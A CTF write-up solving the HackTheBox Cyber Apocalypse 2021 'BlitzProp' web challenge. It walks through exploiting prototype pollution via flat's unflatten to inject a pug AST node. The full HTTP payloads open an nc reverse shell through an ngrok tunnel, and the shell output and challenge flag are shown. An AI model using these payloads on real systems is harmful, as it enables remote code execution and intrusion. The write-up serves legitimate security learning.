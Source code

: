 # CTF HackTheBox 2021 Cyber Apocalypse 2021 - BlitzProp

Category: Web, Points: 300

![info.JPG](images/info.JPG)

And attached file: [web_blitzprop.zip](web_blitzprop.zip)

# BlitzProp Solution

Let's start the docker and browse it:

![index.JPG](images/index.JPG)

By intercepting the request/response using [BurpSuite](https://portswigger.net/burp) we can see the following request when we clicked on Submit button:

![submit.JPG](images/submit.JPG)

By observing the code on attached [web_blitzprop.zip](web_blitzprop.zip) we can see the file routes/index.js:
```js
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { song } = unflatten(req.body);

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});

module.exports = router;
```

We can see the following line:
```js
...
'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
```

```pug.compile``` function converts a string into a template function and passes the object for reference.

We can use [AST-Injection](https://blog.p6.is/AST-Injection/) to get RCE with ```pug.compile```.

So Let's replace the request body to the following (from the link below):
```HTTP
POST /api/submit HTTP/1.1
Host: 139.59.174.238:32389
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://139.59.174.238:32389/
Content-Type: application/json
Origin: http://139.59.174.238:32389
Content-Length: 210
DNT: 1
Connection: close

{
       "song.name": "The Goose went wild", 
        "__proto__.block":{
            "type":"Text",
			"line":"process.mainModule.require('child_process').exec('nc <ip> <port> -e /bin/sh')"
		}
}
```

Now, we can use [ngrok](https://ngrok.com/) to create tunnel from ngrok cloud to our host.

Let's do it (tutorial on ngrok website):
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/blitzprop]
└──╼ $ unzip /path/to/ngrok.zip
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/blitzprop]
└──╼ $ ./ngrok authtoken <YOUR_TOKEN>
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/blitzprop]
└──╼ $ ./ngrok tcp 5533
ngrok by @inconshreveable                                                                                                                                                     (Ctrl+C to quit)                    
Session Status                online
Account                       evyatar9@evyatar9.com 
Version                       2.3.39
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://3.tcp.ngrok.io:11163 -> localhost:5533
Connections                   ttl     opn     rt1     rt5     p50     p90                                           
                              3       0       0.00    0.00    0.00    314.51
```

Now, Listen on port 5533 using nc:
```
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/blitzprop]
└──╼ $ nc -lvp 5533
listening on [any] 5533 ...
```

Sending the following HTTP request:
```HTTP
POST /api/submit HTTP/1.1
Host: 139.59.174.238:32389
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://139.59.174.238:32389/
Content-Type: application/json
Origin: http://139.59.174.238:32389
Content-Length: 210
DNT: 1
Connection: close

{
       "song.name": "The Goose went wild", 
        "__proto__.block":{
            "type":"Text",
			"line":"process.mainModule.require('child_process').exec('nc 3.tcp.ngrok.io 11163 -e /bin/sh')"
		}
}
```

Shell:
```console
listening on [any] 5533 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 53498
whoami
nobody
ls
flagJfmNf
index.js
node_modules
package.json
routes
static
views
yarn.lock
cat flagJfmNf
CHTB{p0llute_with_styl3}
```

And we get the flag: ```CHTB{p0llute_with_styl3}```.